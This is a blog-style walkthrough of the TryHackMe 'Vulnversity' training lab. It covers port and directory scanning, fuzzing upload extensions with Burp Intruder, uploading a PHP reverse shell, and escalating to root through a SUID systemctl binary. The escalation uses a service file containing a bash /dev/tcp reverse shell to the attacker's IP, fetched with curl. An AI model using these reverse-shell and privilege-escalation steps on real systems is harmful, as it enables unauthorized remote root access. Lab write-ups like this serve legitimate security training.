


*2021-08-24*

*kimm3*

# Walkthrough: Vulnversity
Platform: TryHackMe

Difficulty: Easy

- [Link](https://tryhackme.com/room/vulnversity)

As this is a room on TryHackMe I don't explore every single possibility, I awnser the questions and move on. I won't post any awnsers here or even refer to them - just showing how to hack the box, as intended.
## Setup


## Scans and enumeration
```
script history/vulnversity_enumeration.txt
export IP=10.10.115.128
ping $IP
sudo nmap $IP -p- -Pn -A -oA scans/nmap-init
```


### http:3333


Vulnversity site with a bunch of links that dosen't lead anywhere.

`ffuf -u "http://10.10.115.128:3333/FUZZ" -w sl/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -of md -o scans/ffuf-dir-p3333`


'internal' is not a standard folder.


Let's try to upload something.

`touch upload/test`


Ok, let's try find an extension that works using Burpe.


Intercept the request and press CTRL+I to send it to intruder.


Set position at end of filename.


Load SecLists 'web-extensions.txt'.


Turn off the URL encoding, or at least remove the dot so that it dosen't mess with the filename.


Filter by length to get the one that stands out.


So it accept '.phtml'-files and the site is a .php-site, let's try to get a php reverse shell working.

## Foothold
Search for php in `/usr/share/` in kali to get the shell I used.

```
cp tools/php-reverse-shell.php upload/mashell.phtml
vim upload/mashell.phtml
# Change to your tunnel IP, and check port
nc -lvnp 1234
curl "http://10.10.115.128:3333/internal/mashell.phtml"
```

The upload succeeds and I try to curl the file in the same dir but nothing is found.

`ffuf -u "http://10.10.115.128:3333/internal/FUZZ" -w sl/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -of md -o scans/ffuf-dir-internal`


Worth a shot.

`curl "http://10.10.115.128:3333/internal/uploads/mashell.phtml"`


Success.


## Privilege Escalation
Search for all setUID files.

`find / -perm -4000 -exec ls -ldb {} \; 2>/dev/null`



'systemctl' is usually reserved for root only. We can use this to start and stop services on the machine. We can also create our own service that elevates us to root via a reverse shell.

```
[Unit]
Description=pleaseElevate

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/10.8.210.115/1336 0>&1'

[Install]
WantedBy=multi-user.target
```

I created this service-file on my machine and started the python 'http.server'.

```
cd /tmp
curl "http://10.8.210.115/thisroot.service" > thisroot.service
chmod 777 thisroot.service
systemctl enable /tmp/thisroot.service
systemctl start thisroot
```


